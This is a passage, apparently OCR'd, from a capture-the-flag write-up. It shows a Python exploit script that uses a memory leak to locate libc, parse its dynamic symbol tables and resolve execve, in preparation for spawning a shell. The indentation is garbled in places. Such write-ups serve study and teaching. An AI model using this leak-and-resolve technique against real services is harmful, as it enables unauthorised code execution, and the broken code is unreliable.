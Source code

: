 ```python
         st_name = u64(leak(symtab + i, 4).ljust(8, '\0'))
         val = leak( strtab + st_name, len(symbol)).lower()
     print val
     print "i = " + hex(i)
         if val == (symbol.lower()):
            return u64(leak(symtab + i + 8, 8).ljust(8, '\0'))

puts_libc = 0
def lookup(symbol):

    global PIE
    PIE = 0

        libcBase = findLibcBase(puts_libc)
    log.info("Libc's base address:................... " + hex(libcBase))

    libcPhdr = findPhdr(libcBase)
    log.info("Libc's Program Header:................. " + hex(libcPhdr))

    PIE = libcBase
        libcDynamic = findDynamic(libcPhdr, libcBase, bits)
    log.info("Libc's _DYNAMIC Section:............... " + hex(libcDynamic))

    libcStrtab = findDynTable(libcDynamic, 5, bits)
    log.info("Libc's DT_STRTAB Table:................ " + hex(libcStrtab))

    libcSymtab = findDynTable(libcDynamic, 6, bits)
    log.info("Libc's DT_SYMTAB Table:................ " + hex(libcSymtab))

    symbolAddr = findSymbol(libcStrtab, libcSymtab, symbol, bits)
    log.success("%s loaded at address:.............. %s" % (symbol, hex(symbolAddr + libcBase)))
    log.info("Libc's base address:................... " + hex(libcBase))



puts_got = 0x0000000000601018
puts_libc = u64(leak(puts_got))
log.info("Puts @ " + hex((puts_libc)))
lookup("execve")

s.interactive()
```
The server times out after 1 minute. Within each step; finding the libc base, scanning symbol table, etc, the function breaks before finding the desired address, so the script is run again form where it broke, and initial values of iterative variables are hardcoded after each step to speed up the process and stay within the 1 minute time frame.

## Exploitation
Now that we have the offset of `execve` at `0xb7e80`, the only thing left is to get a shell. No mitigations are enabled on the binary except NX.
